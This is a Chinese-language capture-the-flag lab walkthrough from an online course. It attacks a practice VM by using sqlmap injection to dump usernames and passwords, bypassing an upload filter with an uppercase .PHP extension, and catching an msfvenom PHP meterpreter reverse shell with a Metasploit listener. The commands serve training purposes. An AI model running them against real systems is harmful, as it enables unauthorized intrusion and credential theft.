51CTO的网课，本篇利用nmap搜索开放端口，dirb挖掘敏感目录，使用owasp zap扫描可利用漏洞，用sqlmap进行get参数注入，获取用户名和口令，上传反弹shell，获得权限，拿到flag。

本篇使用工具owasp zap，sqlmap，metasploit。

<!-- more -->

# 使用命令

## sqlmap

``` bash
sqlmap -u [“url”] --dbs #获取数据库
sqlmap -u [“url”] --current-user #获取当前用户名称 ：
sqlmap -u [“url”] --current-db #获取当前数据库名称
sqlmap -u [“url”] -D [‘数据库名’] --tables   #列出表名 ： 
sqlmap -u [“url”] -D [‘数据库名’] -T[‘表名’] --columns #列出字段 
sqlmap -u [“url”] -D [‘数据库名’] -T [‘表名’] -C [‘字段名1,字段名2,…’] --dump #获取字段内容
```

## metasploit

``` bash
# msfvenom生成php反弹shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机port -f raw > shell.php

# msf开启监听
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机port
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，`nc`命令探测大端口的banner，获得两个flag：

``` bash
nmap -sV 192.168.1.116
```



2. `nikto`挖掘`80`端口web信息，找到登录页面：

``` bash
nikto -host http://192.168.1.116/
```



3. 访问登录页面，尝试弱口令**admin**登录失败：



4. 使用`owasp zap`扫描网站可利用漏洞，这里利用SQL高危漏洞：



5. 使用`sqlmap`扫描，可以看到多种get参数注入：

``` bash
sqlmap -u "http://192.168.1.116/cat.php?id=3"
```



6. 查看数据库列表：

``` bash
sqlmap -u "http://192.168.1.116/cat.php?id=3" --dbs
```



7. 查看`photoblog`数据库的表：

``` bash
sqlmap -u "http://192.168.1.116/cat.php?id=3" -D photoblog --tables
```



8. 查看`users`表的字段：

``` bash
sqlmap -u "http://192.168.1.116/cat.php?id=3" -D photoblog -T users --columns
```



9. 查看`login`和`password`字段内容，得到口令密码：

``` bash
sqlmap -u "http://192.168.1.116/cat.php?id=3" -D photoblog -T users -C login,password --dump
```



10. 使用口令密码登录后台，准备制作反弹shell来上传：



11. `msfvenom`制作php反弹shell，编辑掉前面的`/*`：

``` bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机port -f raw > shell.php
```



12. 网站上传失败，提示**NO PHP!!**：


13. 修改后缀php变成PHP，绕过检测，上传成功：





14. msf设置监听参数：

``` bash
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 192.168.1.114
```



15. msf开启监听，网站点击shell，靶机拿到shell，不过登录没有flag：



# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)